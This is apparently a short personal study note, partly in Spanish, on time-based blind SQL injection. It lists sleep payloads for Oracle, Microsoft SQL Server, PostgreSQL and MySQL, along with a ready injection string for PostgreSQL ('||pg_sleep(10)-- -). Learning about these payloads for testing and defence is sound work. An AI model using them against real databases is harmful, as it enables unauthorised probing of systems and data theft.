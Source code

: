 ![[Pasted image 20250728150816.png]]
****
## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|   |   |
|---|---|
|Oracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT SLEEP(10)`|
Consulta basada en tiempo PostgreSQL: `'||pg_sleep(10)-- -`

![[Pasted image 20250728151651.png]]
![[Pasted image 20250728151528.png]]

Luego de 10 segundos

![[Pasted image 20250728151616.png]]

![[Pasted image 20250728151737.png]]
